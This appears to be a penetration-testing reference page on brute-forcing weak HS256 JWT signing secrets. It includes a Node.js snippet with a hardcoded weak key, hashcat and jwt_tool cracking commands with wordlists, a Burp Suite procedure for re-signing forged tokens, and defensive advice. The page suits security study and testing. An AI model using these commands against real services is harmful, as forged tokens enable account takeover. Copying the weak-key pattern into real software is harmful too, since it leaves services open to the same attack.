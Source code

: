 # Secret Key Brute-Force

JWT implementations using symmetric algorithms like HS256 rely on a shared secret key to sign and verify tokens. If the secret is weak, hardcoded, or predictable, attackers can recover it through offline brute-force and use it to forge arbitrary tokens.

---

## Vulnerability Details

Symmetric algorithms such as HS256 use an arbitrary secret string (like a password) to sign JWTs. If an attacker captures a valid token, they can attempt to brute-force the secret key offline by comparing computed HMAC signatures.

This happens because developers forget to change default or demo secrets (e.g., `"secret"`, `"changeme"`) or weak secrets like `"123456"` or service names are reused across environments.

### Vulnerable Code Example

```javascript
const jwt = require('jsonwebtoken');

const secret = 'secret'; // weak secret key

const token = req.headers.authorization;

try {
  const decoded = jwt.verify(token, secret);
}
catch (err) {
  res.status(401).send('Invalid token');
}
```

---

## Tools

- Hashcat
- jwt_tool
- Burp Suite (JWT Editor extension)

---

## Exploitation Steps

#### Hashcat
```bash
hashcat -a 0 -m 16500 jwt.txt /usr/share/wordlists/rockyou.txt
```
- Rule-based attack: `-r rules/best64.rule`
- Brute force mode: `-a 3 -i --increment-min=6 ?l?l?l?l?l?l`

#### jwt_tool
```bash
python3 jwt_tool.py <JWT> -C -d <WORDLIST.TXT>
```

#### Burp Suite (JWT Editor extension)
1. Intercept a request containing a JWT token.
2. Use **Weak HMAC Secret Attack** in **JSON Web Token** tab.
   <img width="718" height="486" alt="image" src="https://github.com/user-attachments/assets/d3aab871-0761-40eb-8fcd-bc0ff93e9b8f" />

3. Re-sign the JWT using the cracked secret.

---

## Impact

- Unauthorized access
- Privilege escalation
- Account takeover

---

## Defense

- Use strong, unpredictable secrets (32+ bytes of entropy)
- Rotate secrets periodically with support for key rollover
- Prefer asymmetric algorithms (e.g., RS256) where possible

---

## Labs
- https://pentesterlab.com/exercises/jwt-v
